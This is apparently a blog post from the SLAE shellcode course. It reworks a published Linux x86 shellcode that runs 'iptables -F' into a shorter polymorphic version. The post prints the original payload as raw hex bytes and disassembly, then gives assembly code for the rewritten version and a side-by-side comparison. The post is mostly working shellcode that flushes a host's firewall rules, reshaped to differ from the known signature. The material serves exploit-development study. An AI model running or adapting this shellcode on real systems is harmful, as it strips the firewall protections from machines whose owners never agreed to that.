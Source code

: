 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-05
categories: [SLAE, Assembly]
---
```

The 2nd piece of shellcode we will try to create a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-361.php
The original length is 58 bytes, meaning we have up to 87 bytes (no more than 150%).

Let's take a look at the shellcode that is listed on shellstorm and lets put this through ndisasm just to be sure.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
We have a jump-call-pop to get the string we will be using. the #'s are replaced with nulls.  Looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of the copying of the strings and just use our already saved reference.\
We can jmp-call-pop into ebx to have our path to iptables already stored in the proper register.\
Then we can 0 out edx with cdq and move a null byte into the # location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next we set up our args struct.  The original shellcode copies the string to a location after the original string and sets it to ecx then uses an address of the already used null byte for edx.\
We can just skip all these steps and use our original string and push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.\
This is using the same strategy a normal stack based execve call would use.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.\
Also note that in the string variable above that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into eax and interrupt (int 0x80).  We can use edx since it is null to mov into eax just for a little variation, then mov 0xb into al and make our call
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  Our objdump seems to be missing a few bytes in the string from /sbin/iptables.   I had to go in a manuall insert the sb from sbin and the a from iptables, then it was successful.\
It has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```

